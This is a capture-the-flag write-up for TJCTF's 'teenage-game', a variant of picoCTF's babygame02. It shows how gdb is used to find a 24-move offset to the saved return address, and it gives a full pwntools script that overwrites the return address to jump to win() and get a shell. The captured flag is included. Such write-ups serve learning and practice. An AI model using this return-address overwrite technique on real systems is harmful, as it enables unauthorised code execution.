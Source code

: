 # teenage-game

## Problem

<details>

<summary>Description</summary>

give me a string, any string!

`nc tjc.tf 31764`

</details>

## Solution

This challenge is the exact same as `babygame02` in picoCTF 2023 with some improvements in the new features and better experiences when comes into playing the game. The solution however is exactly the same and there's other people who explained it better than me, go refer to this link for the full in-depth explanation towards the exploit we're about to do

{% embed url="https://blog.ry4n.org/babygame02-picoctf-writeup-6bf57b54f7b3" %}

what I will cover however is how do we determine the offset of our player tile and the RIP. Boot up gdb, move our player tile the coordinate of (0, 0) and `Ctrl+C` to inspect the stack alignment.&#x20;

<figure><img src="../../../.gitbook/assets/image_2023-05-28_223015091.png" alt="" width="563"><figcaption><p>stack alignment</p></figcaption></figure>

we see that our player tile is located at `0x7fffffffd2b0` and the return to main is located at `0x7fffffffd298`. Although the address may be dynamic, their offset towards each other is the same. Thus we can calculate the offset to determine how many time we should move.

<figure><img src="../../../.gitbook/assets/image_2023-05-28_223220629.png" alt="" width="563"><figcaption><p>calculating offset</p></figcaption></figure>

Thus 24 is our offset

{% code title="exploit.py" lineNumbers="true" fullWidth="false" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './game'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'info'
host = 'tjc.tf'
port = 31119

def start(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *win
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# reference: https://blog.ry4n.org/babygame02-picoctf-writeup-6bf57b54f7b3
io = start()

# set player tile to last byte of win()
io.send(b'l')
io.send(b'\xe4')

# set coordinate to (0, 0)
for i in range(4):
    io.send(b'w')
    io.send(b'a')

# overwriting RIP
io.send(b'w')
for i in range(24):
    io.send(b'a')
io.send(b's')

# got shell
io.interactive()
```
{% endcode %}

## Flag

> _**tjctf{so\_many\_new\_features\_but\_who\_will\_stop\_the\_underflow?\_47c6f204377cb18b30e68da46e9930dc}**_
